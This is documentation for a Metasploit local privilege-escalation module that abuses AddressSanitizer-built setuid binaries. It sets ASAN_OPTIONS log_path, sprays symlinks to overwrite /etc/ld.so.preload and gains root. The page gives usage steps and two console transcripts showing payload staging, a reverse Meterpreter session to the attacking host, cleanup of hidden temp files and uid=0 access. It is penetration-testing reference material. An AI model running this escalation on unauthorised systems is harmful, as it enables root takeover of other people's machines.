 ## Description

  This module attempts to gain root privileges on Linux systems using
  setuid executables compiled with AddressSanitizer (ASan).

  ASan configuration related environment variables are permitted when
  executing setuid executables built with libasan. The `log_path` option
  can be set using the `ASAN_OPTIONS` environment variable, allowing
  clobbering of arbitrary files, with the privileges of the setuid user.

  This module uploads a shared object and sprays symlinks to overwrite
  `/etc/ld.so.preload` in order to create a setuid root shell.


## Vulnerable Application

  [AddressSanitizer](https://clang.llvm.org/docs/AddressSanitizer.html) (ASan)
  is a fast memory error detector. It consists of a compiler instrumentation
  module and a run-time library.

  An example executable can be compiled with ASan as follows:
 
  ```
  gcc -s -lasan -fsanitize=address -o asan.elf helloworld.c
  sudo mv asan.elf /usr/bin/asan.elf
  sudo chown root:root /usr/bin/asan.elf
  sudo chmod u+s /usr/bin/asan.elf
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use use exploit/linux/local/asan_suid_executable_priv_esc`
  4. `set SESSION [SESSION]`
  5. `set SUID_EXECUTABLE /path/to/suid/compiled/with/asan`
  6. `check`
  7. `run`
  8. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### SUID_EXECUTABLE

  Path to a SUID executable compiled with ASan. (default: ``)

### SPRAY_SIZE

  Number of PID symlinks to create. (default: `50`)

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ### Command Shell Session (Linux Mint 19)

  ```
  msf > use exploit/linux/local/asan_suid_executable_priv_esc 
  msf exploit(linux/local/asan_suid_executable_priv_esc) > set suid_executable /usr/bin/a.out
  suid_executable => /usr/bin/a.out
  msf exploit(linux/local/asan_suid_executable_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/asan_suid_executable_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/asan_suid_executable_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] /usr/bin/a.out is setuid
  [+] /usr/bin/a.out was compiled with ASan
  [+] gcc is installed
  [*] Writing '/tmp/.pCriI' (291 bytes) ...
  [*] Max line length is 65537
  [*] Writing 291 bytes in 1 chunks of 937 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.JtSfQ1.c' (142 bytes) ...
  [*] Max line length is 65537
  [*] Writing 142 bytes in 1 chunks of 513 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.TCLmzU.so.c' (323 bytes) ...
  [*] Max line length is 65537
  [*] Writing 323 bytes in 1 chunks of 1167 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.V7OEFt.c' (253 bytes) ...
  [*] Max line length is 65537
  [*] Writing 253 bytes in 1 chunks of 906 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.LpfTKJwR' (256 bytes) ...
  [*] Max line length is 65537
  [*] Writing 256 bytes in 1 chunks of 942 bytes (octal-encoded), using printf
  [*] Launching exploit...
  [+] Success! /tmp/.JtSfQ1 is set-uid root!
  -rwsr-xr-x 1 root root 8384 Jan 12 19:30 /tmp/.JtSfQ1
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (914728 bytes) to 172.16.191.211
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.211:56074) at 2019-01-12 03:30:47 -0500
  [+] Deleted /tmp/.JtSfQ1.c
  [+] Deleted /tmp/.TCLmzU.so.c
  [+] Deleted /tmp/.TCLmzU.so
  [+] Deleted /tmp/.V7OEFt.c
  [+] Deleted /tmp/.V7OEFt
  [+] Deleted /tmp/.LpfTKJwR

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.211
  OS           : LinuxMint 19 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

  ### Meterpreter Session (Linux Mint 19)

  ```
  msf > use exploit/linux/local/asan_suid_executable_priv_esc 
  msf exploit(linux/local/asan_suid_executable_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/asan_suid_executable_priv_esc) > set suid_executable /usr/bin/a.out
  suid_executable => /usr/bin/a.out
  msf exploit(linux/local/asan_suid_executable_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/asan_suid_executable_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] /usr/bin/a.out is setuid
  [+] /usr/bin/a.out was compiled with ASan
  [+] gcc is installed
  [*] Writing '/tmp/.XBKiFa' (291 bytes) ...
  [*] Writing '/tmp/.ooMwKnEXt.c' (142 bytes) ...
  [*] Writing '/tmp/.cWZL3A.so.c' (329 bytes) ...
  [*] Writing '/tmp/.78iKLJOvX.c' (254 bytes) ...
  [*] Writing '/tmp/.WkXgm2agJ8' (261 bytes) ...
  [*] Launching exploit...
  [+] Success! /tmp/.ooMwKnEXt is set-uid root!
  -rwsr-xr-x 1 root root 8384 Jan 12 19:42 /tmp/.ooMwKnEXt
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (914728 bytes) to 172.16.191.211
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.211:56080) at 2019-01-12 03:42:43 -0500
  [+] Deleted /tmp/.XBKiFa
  [+] Deleted /tmp/.ooMwKnEXt.c
  [+] Deleted /tmp/.cWZL3A.so.c
  [+] Deleted /tmp/.cWZL3A.so
  [+] Deleted /tmp/.78iKLJOvX.c
  [+] Deleted /tmp/.78iKLJOvX
  [+] Deleted /tmp/.WkXgm2agJ8

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.211
  OS           : LinuxMint 19 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

